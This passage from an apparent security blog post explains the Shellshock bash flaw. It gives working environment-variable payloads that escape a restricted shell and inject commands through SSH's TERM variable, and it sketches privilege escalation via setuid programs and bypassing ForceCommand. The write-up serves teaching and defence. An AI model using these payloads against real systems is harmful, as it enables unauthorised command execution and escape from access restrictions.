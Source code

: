 The only thing that we need is just an executable shell script in the ``PATH``
to target it:

```shell
$ cat /bin/egrep
#!/bin/sh
exec grep -E "$@"

$ X='() { :;}; /bin/echo vuln' bash -r -c 'egrep'
vuln
<...>
```

This may allow you to escape from the restricted shell or at least it will
allow you to perform some prohibited actions like ``cd`` or redirections:

```shell
$ X='() { :;}; cd /home ; echo "foo" > bar ' bash -r -c 'egrep'
<...>

$ cat /home/bar
foo
```



{% call marginnotes() %}
I am sure that there are other clever
and creative ways to *priv esc* using shellshock besides using a
``setuid`` program.
{% endcall %}

If you think, this can be used for a privilege escalation:
running as a
normal user, if a ``setuid`` program spawn a shell you will get a path to root
pretty straightforward.

## SSH

SSH will send some environment variables by default, like ``TERM``
regardless of the configuration of the server or client as long as
we allocate a remote pseudo-terminal (``-t``)

    " [...] the TERM environment variable is always sent whenever
    a pseudo-terminal is requested as it is required by the protocol."

```shell
$ TERM='() { :;}; /bin/echo vuln' ssh -t -p 2201 127.0.0.1 exit
vuln<...>
```

This may seems pointless because we have a remote shell anyways.

But SSH has a ``ForceCommand`` option that set a command to be executed
when the user logs in, ignoring any command supplied by him.

This is used by some folks to restrict the access to the system, typically
setting this to ``/bin/false`` or something like that:
